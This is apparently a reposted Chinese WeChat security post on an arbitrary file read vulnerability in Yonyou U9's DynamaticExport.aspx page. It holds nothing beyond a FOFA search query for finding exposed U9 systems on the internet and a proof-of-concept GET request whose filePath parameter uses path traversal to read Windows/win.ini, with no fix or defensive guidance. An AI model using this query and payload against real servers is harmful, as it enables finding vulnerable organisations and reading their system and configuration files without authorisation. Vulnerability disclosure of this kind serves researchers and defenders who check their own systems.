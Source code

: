 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzIxMTg1ODAwNw==&mid=2247500953&idx=1&sn=616ebafdcd78c30f209b3f5ed9a2a080

#  用友U9 DynamaticExport任意文件读取漏洞  
原创 安全透视镜  网络安全透视镜   2025-07-10 23:10  
  
fofa语法  

```
body=&#34;logo-u9.png&#34;
```

  
  
POC  
  
GET  

```
/print/DynamaticExport.aspx?filePath=../../../../../../../../../../../../Windows/win.ini
```

  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS6icy66iaCGzdwSliaQuia2D3ozEibibhQIsGdzicm8zq5jH9LuIdRzErfdmDNug57H8Q8icJQSLISqkGYib1w/640?wx_fmt=png&from=appmsg "")  
  
  
  

